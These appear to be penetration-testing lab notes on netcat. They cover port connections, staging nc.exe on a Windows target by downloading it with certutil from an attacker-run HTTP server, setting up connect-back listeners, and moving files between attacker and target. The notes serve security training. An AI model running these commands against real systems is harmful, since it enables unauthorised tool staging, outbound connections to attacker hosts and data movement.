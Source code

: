 ```bash
# Debian based distro - install
sudo apt update && sudo apt install -y netcat
```

> 🔬 Some HFS Lab commands

```bash
nc <TARGET_IP> <TARGET_PORT>
nc -nv 10.2.23.227 80
# -n = no DNS resolution
# -v = verbose

nc -nvu 10.2.23.227 445
# -u = UDP port
```

Setup a listener:

- Transfer `nc.exe` to the windows target

```bash
# Attacker machine
ip -br -c a
	10.10.24.4/24
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 80


# Target machine
cd Desktop
certutil -urlcache -f http://10.10.24.4/nc.exe nc.exe
```

- Setup a listener on the attacker machine

```bash
# Attacker machine
nc -nvlp 1234
nc -nvlup 1234 # listen on a UDP port


# Target machine
nc.exe -nv 10.10.24.4 1234
nc.exe -nvu 10.10.24.4 1234

# A connection is received on the Attacker machine
```

- Transfer files with `nc`

```bash
# A listener must be present on the target system
# Target machine
nc.exe -nvlp 1234 > test.txt

# Attacker machine
echo "Hello target" > test.txt
nc -nv 10.2.23.227 1234 < test.txt
```
